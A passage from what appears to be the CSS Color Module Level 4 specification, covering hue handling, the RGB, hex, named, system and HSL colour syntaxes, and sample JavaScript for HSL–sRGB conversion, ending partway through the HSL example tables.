When performing color space conversion to a cylindrical polar color space, user agents *shall* treat a hue component as powerless if the chroma (or other measure of colorfulness, such as saturation in `hsl`) is less than or equal to the epsilon (ε) specified for that color space. For example, a gray color converted into `oklch()` may, due to numerical errors, have an *extremely small* chroma rather than precisely `0%`; as a result, the hue component is powerless.

When changing a powerless hue component to a missing component, the chroma (or other measure of colorfulness, such as saturation in `hsl`; see analogous components) is set to zero to avoid amplifying floating-point noise. Negative values are not clamped to zero, this value is only set to zero when it is larger than zero but smaller or equal to ε. For `hwb` follow these steps instead:

```
1. if W + B is greater than or equal to ε and W + B is less than 100
  1.1. if W and B are not missing
    1.1.1. set B to 100 - W
  1.2. else if W is not missing
    1.2.1. set W to 100
  1.3. else if B is not missing
    1.3.1. set B to 100
```

There is sample JavaScript code for powerless handling in [§ 19 Sample code for Color Conversions](#css-color-4:color-conversion-code).

#### 4.5.  Parsing a `<color>` Value {#css-color-4:parse-color}

To **parse a CSS `<color>` value**, given a string *input*, and an optional context element *element*:

1. Parse *input* as a `<color>`. If the result is failure, return failure; otherwise, let *color* be the result.
2. Let *used color* be the result of [resolving](#css-color-4:resolving-color-values) *color* to a used color. If the value of other properties on the element a `<color>` is on is required to do the resolution (such as resolving a `currentcolor` or system color), use *element* if it was passed, or the initial values of the properties if not.
3. Return *used color*.

> **Note:** This algorithm is not intended to parse a CSS `<color>` value specified in a CSS stylesheet or with a CSSOM interface, but in other places like HTML attributes or Canvas interfaces.

### 5.  sRGB Colors {#css-color-4:numeric-srgb}

CSS colors in the sRGB color space are represented by a triplet of values—​red, green, and blue—​identifying a point in the sRGB color space [SRGB]. This is an internationally-recognized, device-independent color space, and so is useful for specifying colors that will be displayed on a computer screen, but is also useful for specifying colors on other types of devices, like printers.

CSS also allows the use of non-sRGB color spaces, as described in [§ 10 Predefined Color Spaces](#css-color-4:predefined).

CSS provides several methods of directly specifying an sRGB color: hex colors, `rgb()`/`rgba()` color functions, `hsl()`/`hsla()` color functions, `hwb()` color function, named colors, and the `transparent` keyword.

#### 5.1.  The RGB functions: `rgb()` and `rgba()` {#css-color-4:rgb-functions}

The `rgb()` and `rgba()` functions define an sRGB color by specifying the r, g and b (red, green, and blue) components directly. Their syntax is:

```css
rgb() = [ <legacy-rgb-syntax> | <modern-rgb-syntax> ]
rgba() = [ <legacy-rgba-syntax> | <modern-rgba-syntax> ]
<legacy-rgb-syntax> = 	rgb( <percentage>#{3} , <alpha-value>? ) |
                  rgb( <number>#{3} , <alpha-value>? )
<legacy-rgba-syntax> = rgba( <percentage>#{3} , <alpha-value>? ) |
                  rgba( <number>#{3} , <alpha-value>? )
<modern-rgb-syntax> = rgb(
  [ <number> | <percentage> | none]{3}
  [ / [<alpha-value> | none] ]?  )
<modern-rgba-syntax> = rgba(
  [ <number> | <percentage> | none]{3}
  [ / [<alpha-value> | none] ]?  )
```

| Percentages | Allowed for r, g and b |
| --- | --- |
| Percent reference range | For r, g and b: 0% = 0.0, 100% = 255.0 For alpha: 0% = 0.0, 100% = 1.0 |

The first three arguments specify the r, g and b (red, green, and blue) components of the color, respectively. `0%` represents the minimum value for that color component in the sRGB gamut, and `100%` represents the maximum value.

The percentage reference range of the color components comes from the historical fact that many graphics engines stored the color components internally as a single byte, which can hold integers between 0 and 255. Implementations should honor the precision of the component as authored or calculated wherever possible. If this is not possible, the component should be [rounded towards +∞](#css-values-4:combine-integers).

The final argument, the `<alpha-value>`, specifies the alpha of the color. If omitted, it defaults to `100%`.

Values outside these ranges are not invalid, but are clamped to the ranges defined here at parsed-value time.

For historical reasons, `rgb()` and `rgba()` also support a legacy color syntax.

#### 5.2.  The RGB Hexadecimal Notations: `#RRGGBB` {#css-color-4:hex-notation}

The CSS **hex color notation** allows an sRGB color to be specified by giving the components as hexadecimal numbers, which is similar to how colors are often written directly in computer code. It’s also shorter than writing the same color out in `rgb()` notation.

The syntax of a **<hex-color>** is a `<hash-token>` token whose value consists of 3, 4, 6, or 8 hexadecimal digits. In other words, a hex color is written as a hash character, "#", followed by some number of digits 0-9 or letters a-f (the case of the letters doesn’t matter - `#00ff00` is identical to `#00FF00`).

The number of hex digits given determines how to decode the hex notation into an RGB color:

**6 digits**

: The first pair of digits, interpreted as a hexadecimal number, specifies the red component of the color, where `00` represents the minimum value and `ff` (255 in decimal) represents the maximum. The next pair of digits, interpreted in the same way, specifies the green component, and the last pair specifies the blue. The alpha component of the color is fully opaque.

  > **Example:** In other words,  `#00ff00` represents the same color as  `rgb(0 255 0)` (a lime green).

**8 digits**

: The first 6 digits are interpreted identically to the 6-digit notation. The last pair of digits, interpreted as a hexadecimal number, specifies the alpha component of the color, where `00` represents a fully transparent color and `ff` represent a fully opaque color.

  > **Example:** In other words,  `#0000ffcc` represents the same color as  `rgb(0 0 100% / 80%)` (a slightly-transparent blue).

**3 digits**

: This is a shorter variant of the 6-digit notation. The first digit, interpreted as a hexadecimal number, specifies the red component of the color, where `0` represents the minimum value and `f` represents the maximum. The next two digits represent the green and blue components, respectively, in the same way. The alpha component of the color is fully opaque.

  > **Example:** This syntax is often explained by saying that it’s identical to a 6-digit notation obtained by "duplicating" all of the digits. For example, the notation  `#123` specifies the same color as the notation  `#112233`. This method of specifying a color has lower "resolution" than the 6-digit notation; there are only 4096 possible colors expressible in the 3-digit hex syntax, as opposed to approximately 17 million in 6-digit hex syntax.

**4 digits**

: This is a shorter variant of the 8-digit notation, "expanded" in the same way as the 3-digit notation is. The first digit, interpreted as a hexadecimal number, specifies the red component of the color, where `0` represents the minimum value and `f` represents the maximum. The next three digits represent the green, blue, and alpha components, respectively.

### 6.  Color Keywords {#css-color-4:color-keywords}

In addition to the various numeric syntaxes for `<color>`s, CSS defines several sets of color keywords that can be used instead—​each with their own advantages or use cases.

#### 6.1.  Named Colors {#css-color-4:named-colors}

CSS defines a large set of **named colors**, so that common colors can be written and read more easily. A **<named-color>** is written as an `<ident>`, accepted anywhere a `<color>` is. As usual for CSS-defined <ident>s, all of these keywords are [ASCII case-insensitive](https://infra.spec.whatwg.org/#ascii-case-insensitive).

The names resolve to colors in sRGB.

16 of CSS’s named colors come from the VGA palette originally, and were then adopted into HTML: aqua, black, blue, fuchsia, gray, green, lime, maroon, navy, olive, purple, red, silver, teal, white, and yellow. Most of the rest come from one version of the X11 color system, used in Unix-derived systems to specify colors for the console, and were then adopted into SVG.

> **Note:** these color names are standardized here, *not because they are good*, but because their use and implementation has been widespread for decades and the standard needs to reflect reality. Indeed, it is often hard to imagine what each name will look like (hence the list below); the names are not evenly distributed throughout the sRGB color volume, the names are not even internally consistent ( `darkgray` is lighter than  `gray`, while  `lightpink` is darker than  `pink`), and some names (such as  `indianred`, which was originally named after a red pigment from India), have been found to be offensive. Thus, their use is *not encouraged*.

(Two special color values, `transparent` and `currentcolor`, are specially defined in their own sections.)

The following table defines all of the opaque named colors, by giving equivalent numeric specifications in the other color syntaxes.

| Named | Numeric | Color name | Hex rgb | Decimal |
| --- | --- | --- | --- | --- |
|  |  | **aliceblue** | #f0f8ff | 240 248 255 |
|  |  | **antiquewhite** | #faebd7 | 250 235 215 |
|  |  | **aqua** | #00ffff | 0 255 255 |
|  |  | **aquamarine** | #7fffd4 | 127 255 212 |
|  |  | **azure** | #f0ffff | 240 255 255 |
|  |  | **beige** | #f5f5dc | 245 245 220 |
|  |  | **bisque** | #ffe4c4 | 255 228 196 |
|  |  | **black** | #000000 | 0 0 0 |
|  |  | **blanchedalmond** | #ffebcd | 255 235 205 |
|  |  | **blue** | #0000ff | 0 0 255 |
|  |  | **blueviolet** | #8a2be2 | 138 43 226 |
|  |  | **brown** | #a52a2a | 165 42 42 |
|  |  | **burlywood** | #deb887 | 222 184 135 |
|  |  | **cadetblue** | #5f9ea0 | 95 158 160 |
|  |  | **chartreuse** | #7fff00 | 127 255 0 |
|  |  | **chocolate** | #d2691e | 210 105 30 |
|  |  | **coral** | #ff7f50 | 255 127 80 |
|  |  | **cornflowerblue** | #6495ed | 100 149 237 |
|  |  | **cornsilk** | #fff8dc | 255 248 220 |
|  |  | **crimson** | #dc143c | 220 20 60 |
|  |  | **cyan** | #00ffff | 0 255 255 |
|  |  | **darkblue** | #00008b | 0 0 139 |
|  |  | **darkcyan** | #008b8b | 0 139 139 |
|  |  | **darkgoldenrod** | #b8860b | 184 134 11 |
|  |  | **darkgray** | #a9a9a9 | 169 169 169 |
|  |  | **darkgreen** | #006400 | 0 100 0 |
|  |  | **darkgrey** | #a9a9a9 | 169 169 169 |
|  |  | **darkkhaki** | #bdb76b | 189 183 107 |
|  |  | **darkmagenta** | #8b008b | 139 0 139 |
|  |  | **darkolivegreen** | #556b2f | 85 107 47 |
|  |  | **darkorange** | #ff8c00 | 255 140 0 |
|  |  | **darkorchid** | #9932cc | 153 50 204 |
|  |  | **darkred** | #8b0000 | 139 0 0 |
|  |  | **darksalmon** | #e9967a | 233 150 122 |
|  |  | **darkseagreen** | #8fbc8f | 143 188 143 |
|  |  | **darkslateblue** | #483d8b | 72 61 139 |
|  |  | **darkslategray** | #2f4f4f | 47 79 79 |
|  |  | **darkslategrey** | #2f4f4f | 47 79 79 |
|  |  | **darkturquoise** | #00ced1 | 0 206 209 |
|  |  | **darkviolet** | #9400d3 | 148 0 211 |
|  |  | **deeppink** | #ff1493 | 255 20 147 |
|  |  | **deepskyblue** | #00bfff | 0 191 255 |
|  |  | **dimgray** | #696969 | 105 105 105 |
|  |  | **dimgrey** | #696969 | 105 105 105 |
|  |  | **dodgerblue** | #1e90ff | 30 144 255 |
|  |  | **firebrick** | #b22222 | 178 34 34 |
|  |  | **floralwhite** | #fffaf0 | 255 250 240 |
|  |  | **forestgreen** | #228b22 | 34 139 34 |
|  |  | **fuchsia** | #ff00ff | 255 0 255 |
|  |  | **gainsboro** | #dcdcdc | 220 220 220 |
|  |  | **ghostwhite** | #f8f8ff | 248 248 255 |
|  |  | **gold** | #ffd700 | 255 215 0 |
|  |  | **goldenrod** | #daa520 | 218 165 32 |
|  |  | **gray** | #808080 | 128 128 128 |
|  |  | **green** | #008000 | 0 128 0 |
|  |  | **greenyellow** | #adff2f | 173 255 47 |
|  |  | **grey** | #808080 | 128 128 128 |
|  |  | **honeydew** | #f0fff0 | 240 255 240 |
|  |  | **hotpink** | #ff69b4 | 255 105 180 |
|  |  | **indianred** | #cd5c5c | 205 92 92 |
|  |  | **indigo** | #4b0082 | 75 0 130 |
|  |  | **ivory** | #fffff0 | 255 255 240 |
|  |  | **khaki** | #f0e68c | 240 230 140 |
|  |  | **lavender** | #e6e6fa | 230 230 250 |
|  |  | **lavenderblush** | #fff0f5 | 255 240 245 |
|  |  | **lawngreen** | #7cfc00 | 124 252 0 |
|  |  | **lemonchiffon** | #fffacd | 255 250 205 |
|  |  | **lightblue** | #add8e6 | 173 216 230 |
|  |  | **lightcoral** | #f08080 | 240 128 128 |
|  |  | **lightcyan** | #e0ffff | 224 255 255 |
|  |  | **lightgoldenrodyellow** | #fafad2 | 250 250 210 |
|  |  | **lightgray** | #d3d3d3 | 211 211 211 |
|  |  | **lightgreen** | #90ee90 | 144 238 144 |
|  |  | **lightgrey** | #d3d3d3 | 211 211 211 |
|  |  | **lightpink** | #ffb6c1 | 255 182 193 |
|  |  | **lightsalmon** | #ffa07a | 255 160 122 |
|  |  | **lightseagreen** | #20b2aa | 32 178 170 |
|  |  | **lightskyblue** | #87cefa | 135 206 250 |
|  |  | **lightslategray** | #778899 | 119 136 153 |
|  |  | **lightslategrey** | #778899 | 119 136 153 |
|  |  | **lightsteelblue** | #b0c4de | 176 196 222 |
|  |  | **lightyellow** | #ffffe0 | 255 255 224 |
|  |  | **lime** | #00ff00 | 0 255 0 |
|  |  | **limegreen** | #32cd32 | 50 205 50 |
|  |  | **linen** | #faf0e6 | 250 240 230 |
|  |  | **magenta** | #ff00ff | 255 0 255 |
|  |  | **maroon** | #800000 | 128 0 0 |
|  |  | **mediumaquamarine** | #66cdaa | 102 205 170 |
|  |  | **mediumblue** | #0000cd | 0 0 205 |
|  |  | **mediumorchid** | #ba55d3 | 186 85 211 |
|  |  | **mediumpurple** | #9370db | 147 112 219 |
|  |  | **mediumseagreen** | #3cb371 | 60 179 113 |
|  |  | **mediumslateblue** | #7b68ee | 123 104 238 |
|  |  | **mediumspringgreen** | #00fa9a | 0 250 154 |
|  |  | **mediumturquoise** | #48d1cc | 72 209 204 |
|  |  | **mediumvioletred** | #c71585 | 199 21 133 |
|  |  | **midnightblue** | #191970 | 25 25 112 |
|  |  | **mintcream** | #f5fffa | 245 255 250 |
|  |  | **mistyrose** | #ffe4e1 | 255 228 225 |
|  |  | **moccasin** | #ffe4b5 | 255 228 181 |
|  |  | **navajowhite** | #ffdead | 255 222 173 |
|  |  | **navy** | #000080 | 0 0 128 |
|  |  | **oldlace** | #fdf5e6 | 253 245 230 |
|  |  | **olive** | #808000 | 128 128 0 |
|  |  | **olivedrab** | #6b8e23 | 107 142 35 |
|  |  | **orange** | #ffa500 | 255 165 0 |
|  |  | **orangered** | #ff4500 | 255 69 0 |
|  |  | **orchid** | #da70d6 | 218 112 214 |
|  |  | **palegoldenrod** | #eee8aa | 238 232 170 |
|  |  | **palegreen** | #98fb98 | 152 251 152 |
|  |  | **paleturquoise** | #afeeee | 175 238 238 |
|  |  | **palevioletred** | #db7093 | 219 112 147 |
|  |  | **papayawhip** | #ffefd5 | 255 239 213 |
|  |  | **peachpuff** | #ffdab9 | 255 218 185 |
|  |  | **peru** | #cd853f | 205 133 63 |
|  |  | **pink** | #ffc0cb | 255 192 203 |
|  |  | **plum** | #dda0dd | 221 160 221 |
|  |  | **powderblue** | #b0e0e6 | 176 224 230 |
|  |  | **purple** | #800080 | 128 0 128 |
|  |  | **rebeccapurple** | #663399 | 102 51 153 |
|  |  | **red** | #ff0000 | 255 0 0 |
|  |  | **rosybrown** | #bc8f8f | 188 143 143 |
|  |  | **royalblue** | #4169e1 | 65 105 225 |
|  |  | **saddlebrown** | #8b4513 | 139 69 19 |
|  |  | **salmon** | #fa8072 | 250 128 114 |
|  |  | **sandybrown** | #f4a460 | 244 164 96 |
|  |  | **seagreen** | #2e8b57 | 46 139 87 |
|  |  | **seashell** | #fff5ee | 255 245 238 |
|  |  | **sienna** | #a0522d | 160 82 45 |
|  |  | **silver** | #c0c0c0 | 192 192 192 |
|  |  | **skyblue** | #87ceeb | 135 206 235 |
|  |  | **slateblue** | #6a5acd | 106 90 205 |
|  |  | **slategray** | #708090 | 112 128 144 |
|  |  | **slategrey** | #708090 | 112 128 144 |
|  |  | **snow** | #fffafa | 255 250 250 |
|  |  | **springgreen** | #00ff7f | 0 255 127 |
|  |  | **steelblue** | #4682b4 | 70 130 180 |
|  |  | **tan** | #d2b48c | 210 180 140 |
|  |  | **teal** | #008080 | 0 128 128 |
|  |  | **thistle** | #d8bfd8 | 216 191 216 |
|  |  | **tomato** | #ff6347 | 255 99 71 |
|  |  | **turquoise** | #40e0d0 | 64 224 208 |
|  |  | **violet** | #ee82ee | 238 130 238 |
|  |  | **wheat** | #f5deb3 | 245 222 179 |
|  |  | **white** | #ffffff | 255 255 255 |
|  |  | **whitesmoke** | #f5f5f5 | 245 245 245 |
|  |  | **yellow** | #ffff00 | 255 255 0 |
|  |  | **yellowgreen** | #9acd32 | 154 205 50 |

> **Note:** this list of colors and their definitions is a superset of the list of [named colors defined by SVG 1.1](https://www.w3.org/TR/SVG11/types.html#ColorKeywords).

For historical reasons, this is also referred to as the X11 color set.

> **Note:** The history of the X11 color system is interesting, and was excellently summarized by [Alex Sexton in their talk “Peachpuffs and Lemonchiffons”](https://www.youtube.com/watch?v=HmStJQzclHc).

#### 6.2.  System Colors {#css-color-4:css-system-colors}

In general, the `<system-color>` keywords reflect *default* color choices made by the user, the browser, or the OS. They are typically used in the browser default stylesheet, for this reason.

To maintain legibility, the `<system-color>` keywords also respond to the element color scheme.

> **Example:** For example, traditional  blue link text is legible on a  white background (WCAG contrast 8.59:1, AAA pass) but would not be legible on a  black background (WCAG contrast 2.44:1, AA fail). Instead, a lighter blue such as  #81D9FE would be used in dark mode (WCAG contrast 13.28:1, AAA pass).
>
> Legible link text
>
> Illegible link text
>
> Legible link text

However, in forced colors mode, most colors on the page are forced into a restricted, user-chosen palette, see [CSS Color Adjustment 1 § 5.2 Forced Colors Mode Color Palettes](#css-color-adjust-1:forced-color-palettes). The **<system-color>** keywords expose these user-chosen colors so that the rest of the page can integrate with this restricted palette.

When the [forced-colors](#mediaqueries-5:descdef-media-forced-colors) media feature is `active`, authors *should* use the `<system-color>` keywords as color values in properties other than those listed in [CSS Color Adjustment 1 § 3.1 Properties Affected by Forced Colors Mode](#css-color-adjust-1:forced-colors-properties), to ensure legibility and consistency across the page and avoid an uncoordinated mishmash of user-forced and page-chosen colors.

When the values of `<system-color>` keywords come from the browser, (as opposed to being OS defaults or user choices) the browser should ensure that [matching foreground/background pairs](#css-color-4:system-color-pairs) have a minimum of WCAG AA contrast. However, user preferences (for higher or lower contrast), whether set as a browser preference, a user stylesheet, or by altering the OS defaults, must take precedence over this requirement.

Authors *may* also use these keywords at any time, but *should* be careful to use the colors in [matching background-foreground pairs](#css-color-4:system-color-pairs) to ensure appropriate contrast, as any particular contrast relationship across non-matching pairs (e.g. `Canvas` and `ButtonText`) is not guaranteed.

The `<system-color>` keywords are defined as follows:

****AccentColor****

: Background of accented user interface controls.

****AccentColorText****

: Text of accented user interface controls.

****ActiveText****

: Text in active links. For light backgrounds, traditionally red.

****ButtonBorder****

: The base border color for push buttons.

****ButtonFace****

: The face background color for push buttons.

****ButtonText****

: Text on push buttons.

****Canvas****

: Background of application content or documents.

****CanvasText****

: Text in application content or documents.

****Field****

: Background of input fields.

****FieldText****

: Text in input fields.

****GrayText****

: Disabled text. (Often, but not necessarily, gray.)

****Highlight****

: Background of selected text, for example from ::selection.

****HighlightText****

: Text of selected text.

****LinkText****

: Text in non-active, non-visited links. For light backgrounds, traditionally blue.

****Mark****

: Background of text that has been specially marked (such as by the HTML `mark` element).

****MarkText****

: Text that has been specially marked (such as by the HTML `mark` element).

****SelectedItem****

: Background of selected items, for example a selected checkbox.

****SelectedItemText****

: Text of selected items.

****VisitedText****

: Text in visited links. For light backgrounds, traditionally purple.

> **Note:** As with all other keywords, these names are [ASCII case-insensitive](https://infra.spec.whatwg.org/#ascii-case-insensitive). They are shown here with mixed capitalization for legibility.

For systems that do not have a particular system UI concept, the specified value should be mapped to the most closely related system color value that exists. The following **system color pairings** are expected to form legible background-foreground colors:

- `Canvas` background with `CanvasText`, `LinkText`, `VisitedText`, `ActiveText` foreground.
- `Canvas` background with a `ButtonBorder` border and adjacent color `Canvas`
- `ButtonFace` background with `ButtonText` foreground.
- `Field` background with `FieldText` foreground.
- `Mark` background with `MarkText` foreground
- `ButtonFace` or `Field` background with a `ButtonBorder` border and adjacent color `Canvas`'
- `Highlight` background with `HighlightText` foreground.
- `SelectedItem` background with `SelectedItemText` foreground.
- `AccentColor` background with `AccentColorText` foreground.

Additionally, `GrayText` is expected to be readable, though possibly at a lower contrast rating, over any of the backgrounds.

To maintain consistency with widget accent color styling, `AccentColor` takes its value from `accent-color`, unless Forced Colors Mode is enabled. `AccentColorText` takes its value from the contrasting foreground color to `AccentColor` as is described for widget accent color styling.

> **Example:** For example, the system color combinations in the browser you are currently using:
>
> Canvas with CanvasText: CanvasText
>
> Canvas with LinkText: LinkText
>
> Canvas with VisitedText: VisitedText
>
> Canvas with ActiveText: ActiveText
>
> Canvas with GrayText: GrayText
>
> Canvas with ButtonBorder and adjacent Canvas: CanvasTextAdjacent
>
> ButtonFace with ButtonText: ButtonText
>
> ButtonFace with ButtonText and ButtonBorder: ButtonText
>
> ButtonFace with GrayText: GrayText
>
> Field with FieldText: FieldText
>
> Field with GrayText: GrayText
>
> Mark with MarkText: MarkText
>
> Mark with GrayText: GrayText
>
> Highlight with HighlightText: HighlightText
>
> Highlight with GrayText: GrayText
>
> SelectedItem with SelectedItemText: SelectedItemText
>
> AccentColor with AccentColorText: AccentColorText
>
> AccentColor with GrayText: GrayText

Earlier versions of CSS defined additional `<system-color>`s, which have since been deprecated. These are documented in [Appendix A: Deprecated CSS System Colors](#css-color-4:deprecated-system-colors).

> **Note:** The `<system-color>`s incur some privacy and security risk, as detailed in [§ 22 Privacy Considerations](#css-color-4:privacy) and [§ 21 Security Considerations](#css-color-4:security).

User agents may, to mitigate privacy and security risks such as fingerprinting, elect to return fixed values for the used value of system colors which do not reflect customisation or theming choices made by the user.

#### 6.3.  The `transparent` keyword {#css-color-4:transparent-color}

The keyword **transparent** specifies a transparent black. It is a type of `<named-color>`.

#### 6.4.  The `currentcolor` keyword {#css-color-4:currentcolor-color}

The keyword **currentcolor** represents value of the `color` property on the same element. Unlike `<named-color>`s, it is *not* restricted to sRGB; the value can be any `<color>`. Its used values is determined by [resolving color values](#css-color-4:resolving-other-colors).

> **Example:** Here’s a simple example showing how to use the `currentcolor` keyword:
>
> ```css
> .foo {
>   color:  red;
>   background-color:  currentcolor;
> }
> ```
>
> This is equivalent to writing:
>
> ```css
> .foo {
>   color:  red;
>   background-color:  red;
> }
> ```

> **Example:** For example, the `text-emphasis-color` property [CSS3-TEXT-DECOR], whose initial value is `currentcolor`, by default matches the text color even as the `color` property changes across elements.
>
> ```markup
> <p><em>Some <strong>really</strong> emphasized text.</em>
> <style>
> p { color: black; }
> em { text-emphasis: dot; }
> strong { color: red; }
> </style>
> ```
>
> 
>
> In the above example, the emphasis marks are black over the text "Some" and "emphasized text", but red over the text "really".

> **Note:** Multi-word keywords in CSS usually separate their component words with hyphens. `currentcolor` doesn’t, because (deep breath) it was originally introduced in SVG as a property value, "current-color" with the usual CSS spelling. It (along with all other properties and their values) then became presentation attributes and attribute values, as well as properties, to make generation with XSLT easier. Then all of the presentation attributes were changed from hyphenated to camelCase, because the DOM had an issue with hyphen meaning "minus". But then, they didn’t follow CSS conventions anymore so all the properties and property values that were *already* part of CSS were changed back to hyphenated! `currentcolor` was not a part of CSS at that time, so remained camelCased. Only later did CSS pick it up, at which point the capitalization stopped mattering, as CSS keywords are [ASCII case-insensitive](https://infra.spec.whatwg.org/#ascii-case-insensitive).

### 7.  HSL Colors: `hsl()` and `hsla()` functions {#css-color-4:the-hsl-notation}

The RGB system for specifying colors, while convenient for machines and graphic libraries, is often regarded as very difficult for humans to gain an intuitive grasp on. It’s not easy to tell, for example, how to alter an RGB color to produce a lighter variant of the same hue.

There are several other color schemes possible. One such is the HSL [HSL] color scheme, which is more intuitive to use, but still maps easily back to RGB colors.

**HSL** colors are specified as a triplet of hue, saturation, and lightness. The syntax of the `hsl()` and `hsla()` functions is:

```css
hsl() = [ <legacy-hsl-syntax> | <modern-hsl-syntax> ]
hsla() = [ <legacy-hsla-syntax> | <modern-hsla-syntax> ]
<modern-hsl-syntax> = hsl(
    [<hue> | none]
    [<percentage> | <number> | none]
    [<percentage> | <number> | none]
    [ / [<alpha-value> | none] ]? )
<modern-hsla-syntax> = hsla(
    [<hue> | none]
    [<percentage> | <number> | none]
    [<percentage> | <number> | none]
    [ / [<alpha-value> | none] ]? )
<legacy-hsl-syntax> = hsl( <hue>, <percentage>, <percentage>, <alpha-value>? )
<legacy-hsla-syntax> = hsla( <hue>, <percentage>, <percentage>, <alpha-value>? )
```

| Percentages | Allowed for S and L |
| --- | --- |
| Percent reference range | for S and L: 0% = 0.0, 100% = 100.0 |
| Powerless hue ε | S <= 0.001 |

The first argument specifies the hue angle.

In HSL (and HWB) the angle `0deg` represents sRGB primary red (as does `360deg`, `720deg`, etc.), and the rest of the hues are spread around the circle, so `120deg` represents sRGB primary green, `240deg` represents sRGB primary blue, etc.

The next two arguments are the saturation and lightness, respectively. For saturation, `100%` or `100` is a fully-saturated, bright color, and `0%` or `0` is a fully-unsaturated gray. For lightness, `50%` or `50` represents the "normal" color, while `100%` or `100` is white and `0%` or `0` is black.

For historical reasons, if the saturation is less than `0%` it is clamped to `0%` at parsed-value time, before being converted to an sRGB color.

The final argument specifies the alpha component of the color. It’s interpreted identically to the fourth argument of the `rgb()` function. If omitted, it defaults to `100%`.

HSL colors resolve to sRGB.

If the saturation of an HSL color is `0%` or `0`, then the hue component is powerless.

> **Example:** For example, an ordinary red, the same color you would see from the keyword  `red` or the hex notation  `#f00`, is represented in HSL as  `hsl(0deg 100% 50%)`.

An advantage of HSL over RGB is that it is more intuitive: people can guess at the colors they want, and then tweak.

> **Example:** For example, the following colors can all be generated off of the basic "green" hue, just by varying the other two arguments:
>
> ```css
> hsl(120deg 100% 50%) lime green
> hsl(120deg 100% 25%) dark green
> hsl(120deg 100% 75%) light green
> hsl(120deg 75% 85%)  pastel green
> ```

A disadvantage of HSL over OkLCh is that hue manipulation changes the visual lightness, and that hues are not evenly spaced apart.

It is thus easier in HSL to create sets of matching colors (by keeping the hue the same and varying the saturation and lightness), compared to manipulating the sRGB component values; however, because the lightness is simply the mean of the gamma-corrected red, green and blue components it does not correspond to the visual perception of lightness across hues.

> **Example:** For example,  `blue` is represented in HSL as  `hsl(240deg 100% 50%)` while  `yellow` is  `hsl(60deg 100% 50%)`. Both have an HSL Lightness of 50%, but clearly the yellow looks much lighter than the blue.
>
> In OkLCh, sRGB blue is  `oklch(0.452 0.313 264.1)` while sRGB yellow is  `oklch(0.968 0.211 109.8)`. The OkLCh Lightnesses of 0.452 and 0.968 clearly reflect the visual lightnesses of the two colors.

The hue angle in HSL is not perceptually uniform; colors appear bunched up in some areas and widely spaced in others.

> **Example:** For example, the pair of hues  `hsl(220deg 100% 50%)` and  `hsl(250deg 100% 50%)` have an HSL hue difference of 250-220 = **30**deg and look fairly similar, while another pair of colors  `hsl(50deg 100% 50%)` and  `hsl(80deg 100% 50%)`, which *also* have a hue difference of 80-50 = **30**deg, look very different.
>
> In OkLCh, the same pair of colors  `oklch(0.533 0.26 262.6)` and  `oklch(0.462 0.306 268.9)` have a hue difference of 268.9 - 262.6 = **6.3**deg while the second pair  `oklch(0.882 0.181 94.24)` and  `oklch(0.91 0.245 129.9)` have a hue difference of 129.9 - 94.24 = **35.66**deg, correctly reflecting the visual separation of hues.

For historical reasons, `hsl()` and `hsla()` also support a legacy color syntax.

#### 7.1.  Converting HSL Colors to sRGB {#css-color-4:hsl-to-rgb}

Converting an HSL color to sRGB is straightforward mathematically. Here’s a sample implementation of the conversion algorithm in JavaScript. It returns an array of three numbers representing the red, green, and blue components of the colors, which for colors in the sRGB gamut will be in the range [0, 1].

This code assumes that *parse-time* clamping of negative saturation has already been applied.

```javascript
/**
 * @param {number} hue - Hue as degrees 0..360
 * @param {number} sat - Saturation in reference range [0,100]
 * @param {number} light - Lightness in reference range [0,100]
 * @return {number[]} Array of sRGB components; in-gamut colors in range [0..1]
 */
function hslToRgb(hue, sat, light) {

    sat /= 100;
    light /= 100;

    function f(n) {
        let k = (n + hue/30) % 12;
        let a = sat * Math.min(light, 1 - light);
        return light - a * Math.max(-1, Math.min(k - 3, 9 - k, 1));
    }

    return [f(0), f(8), f(4)];
}
```

#### 7.2.  Converting sRGB Colors to HSL {#css-color-4:rgb-to-hsl}

Conversion in the reverse direction proceeds similarly.

Special care is taken to deal with intermediate negative values of saturation, which can be produced by colors far outside the sRGB gamut.

```javascript
/**
 * @param {number} red - Red component 0..1
 * @param {number} green - Green component 0..1
 * @param {number} blue - Blue component 0..1
 * @return {number[]} Array of HSL values: Hue as degrees 0..360, Saturation and Lightness in reference range [0,100]
 */
function rgbToHsl (red, green, blue) {
    let max = Math.max(red, green, blue);
    let min = Math.min(red, green, blue);
    let [hue, sat, light] = [NaN, 0, (min + max)/2];
    let d = max - min;
    let epsilon = 1 / 100000;   // max Sat is 1, in this code

    if (d !== 0) {
        sat = (Math.abs(light) <= epsilon || Math.abs(1 - light) < epsilon)
            ? 0
            : (max - light) / Math.min(light, 1 - light);

        switch (max) {
            case red:   hue = (green - blue) / d + (green < blue ? 6 : 0); break;
            case green: hue = (blue - red) / d + 2; break;
            case blue:  hue = (red - green) / d + 4;
        }

        hue = hue * 60;
    }

    // Very out of gamut colors can produce negative saturation
    // If so, just rotate the hue by 180 and use a positive saturation
    // see https://github.com/w3c/csswg-drafts/issues/9222
    if (sat < 0) {
        hue += 180;
        sat = Math.abs(sat);
    }

    if (hue >= 360) {
        hue -= 360;
    }

    if (sat <= epsilon) {
        hue = NaN;
        sat = 0;
    }

    return [hue, sat * 100, light * 100];
}
```

#### 7.3.  Examples of HSL Colors {#css-color-4:hsl-examples}

*This section is not normative.*

The tables below illustrate a wide range of possible HSL colors. Each table represents one hue, selected at 30° intervals, to illustrate the common "core" hues: red, yellow, green, cyan, blue, magenta, and the six intermediary colors between these.

In each table, the X axis represents the saturation while the Y axis represents the lightness.

| 0° Reds |  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
|  | 100% | 80% | 60% | 40% | 20% | 0% |
| 100% |  |  |  |  |  |  |
| 90% |  |  |  |  |  |  |
| 80% |  |  |  |  |  |  |
| 70% |  |  |  |  |  |  |
| 60% |  |  |  |  |  |  |
| 50% |  |  |  |  |  |  |
| 40% |  |  |  |  |  |  |
| 30% |  |  |  |  |  |  |
| 20% |  |  |  |  |  |  |
| 10% |  |  |  |  |  |  |
| 0% |  |  |  |  |  |  |

| 30° Reds-Yellows (=Oranges) |  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- |
|  | 100% | 80% | 60% | 40% | 20% | 0% |
| 100% |  |  |  |  |  |  |
| 90% |  |  |  |  |  |  |
| 80% |  |  |  |  |  |  |
| 70% |  |  |  |  |  |  |
| 60% |  |  |  |  |  |  |
| 50% |  |  |  |  |  |  |
| 40% |  |  |  |  |  |  |
| 30% |  |  |  |  |  |  |
| 20% |  |  |  |  |  |  |
